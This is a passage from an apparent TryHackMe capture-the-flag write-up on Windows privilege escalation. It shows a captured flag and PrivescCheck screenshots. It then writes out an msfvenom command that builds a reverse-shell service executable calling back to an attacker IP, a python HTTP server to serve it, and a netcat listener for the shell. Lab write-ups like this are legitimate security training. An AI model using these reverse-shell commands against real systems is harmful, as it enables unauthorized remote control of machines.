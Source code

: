 ```bash
C:\Windows\system32>
```

> THM{QUOTES_EVERYWHERE}

##### Get the flag on the Administrator's desktop.

**PrivescCheck** result

![](../../attachment/1b8e5815a38fa4b90ef20edf464ac695.png)

![](../../attachment/210e2b088252744ba0e0ff54bf84e91d.png)

Prepare rev shell

```bash
┌──(kali㉿kali)-[/tmp/www]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.11.19.145 LPORT=1111 -f exe-service -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe-service file: 48640 bytes
Saved as: shell.exe

┌──(kali㉿kali)-[/tmp/www]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```bash
┌──(kali㉿kali)-[~/thm]
└─$ rlwrap -r -f . nc -nlvp 1111
```
